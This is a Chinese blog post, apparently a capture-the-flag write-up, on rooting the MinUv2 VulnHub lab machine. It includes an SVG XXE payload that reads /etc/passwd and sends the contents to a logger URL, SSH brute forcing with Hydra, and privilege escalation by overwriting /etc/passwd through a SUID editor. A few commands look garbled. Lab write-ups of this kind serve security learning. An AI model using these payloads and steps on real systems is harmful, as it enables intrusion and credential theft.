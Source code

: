 ```yaml
---
layout: post
title: "「渗透」SVG的神秘力量：minUv2"
date: 2019-09-01
author: Bin4xin
categories:
    - blog
    - Web
    - 漏洞复现
    - 渗透
    - vulnhub
permalink: /blog/2019/minUv2/
---
```


# 序言
hello,各位。最近闲来无事，工作之余偷偷用公司电脑测试入侵了一个linux靶机，遂记录下。（手动狗头）
这个靶机本身难度适中，复现了svg的代码执行漏洞且要求对linux的系统命令较为熟悉；svg大体来说是一种图像文件格式，基于XML，由W3C联盟进行开发的，支持网页打开，编辑方便等。可以自行深入搜索~各位大佬见笑。
## 一、靶机简介
minUv2下载地址:<br>
<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z">Download (Mirror)</a>
<br>
<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z.torrent">Download (Torrent)</a>
<br> 
## 二、实战
江湖规矩，神器开路：首先先用`Nmap`扫描确定靶机地址。发现靶机ip。
这里靶机只支持vbox，所以得桥接通信，打码请谅解~<br>
![](https://p2.ssl.qhimg.com/t0167faf934cb9977ca.png)<br>
确定ip直接端口扫描~
![](https://p4.ssl.qhimg.com/t011687f39e33bbe3e4.png)
发现只开放了两个端口：`22、3306`端口。22端口暂时先放着不管，咱们看看3306端口。
是一个web页面，emmmm.主角登场，svg图像~
![](https://p0.ssl.qhimg.com/t019035849ce7a48ccf.png)
## 三、发现漏洞
小弟赶紧dirb扫描一波，果然有发现。<br>
```applescript
#扫描3306端口下的html后缀的文件
dirb http://$_ip:port -X .html
--------------
+ http://$_ip:port/upload.html (CODE:200|SIZE:908)
--------------
DOWNLOADED: 4612 - FOUND: 1
```
发现了上传网页，且只能上传svg、img文件，又惊又喜。exp搜索一哈找到poc，验证一下漏洞的存在。poc代码如下：
```applescript
#poc上传上去页面回显
#<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="19000px" xmlns:xlink="http://www.w3.org/1999/xlink" >
<text x="-1000" y="-1000" >&xxe;</text>
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" 		fill="red" />
<script>
var logger = "http://localhost/?file=" +
encodeURIComponent(document.getElementsByTagName("text")	[0].innerHTML);
document.createElementNS('http://www.w3.org/2000/svg','image').setAttributeNS('http://www.w3.org/1999/xlink','href', logger);
</script></svg>
```
<br>
果然有`xxe`漏洞，但是验证了漏洞不能让我们有实际的渗透进展，只能对一些文件内容进行查看，无法得到shell，要怎么办呢？

![](https://p1.ssl.qhimg.com/t0163eb735e597071e2.png)

## 四、get shell
就在小弟愁眉苦脸的时候，忽然看到最后一行用户名的进程是/bin/ash，想到bash shell会有历史纪录，赶紧重新上传一个poc验证想法。回显内容：<br>
```applescript
"./ash.history"获取~
Useradd –D bossdonttrackme –p superultrapass3
```
根据所得的内容生成用户字典（passwd回显的用户名），密码字典。用Hydra跑一下。
```applescript
##hydra -L /root/Documents/test/minu/use.txt -P /root/Documents/test/minu/passwd.txt ssh://$_ip
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or 
secret service organizations, or for illegal purposes.
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4	[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:30/p:1), ~2 tries per task
[DATA] attacking ssh://$_ip:22/
[22][ssh] host: $_ip ** login: employee password: superultrapass3**
1 of 1 target successfully completed, 1 valid password found
##跑出来账号密码employee：uperultrapass3，ssh连上去。
##连接上去查看一下基本信息 
ssh employee@ip
whoami
id | find -perm -4000 2>/dev/null
```
![](https://p5.ssl.qhimg.com/t013dbd6663c5c9720e.png)
## 五、提权
发现`micro`和`bbsuid`不需要高权限，运行一下，发现micro是一个`文本编辑工具器`。接下来就简单了。
```applescript
#生成一份hash值，替换掉passwd的用户密码，这样密码就已知了。
#用micro编辑器打开passwd文件，替换root密码保存即可
passwd -1 -salty root admin123(随意)
cat /etc/passwd |/usr/bin/micro
```
![](https://p5.ssl.qhimg.com/t0198aaa755e6394b0f.png)
这样我们就已知root密码了，直接切换用户
```applescript
minuv2:~$ su root
Password: 
minuv2:/home/employee# whoami
root
minuv2:/home/employee#
```
![](https://p2.ssl.qhimg.com/t01aefe59b403bdcc5c.png)
获得flag~感谢各位

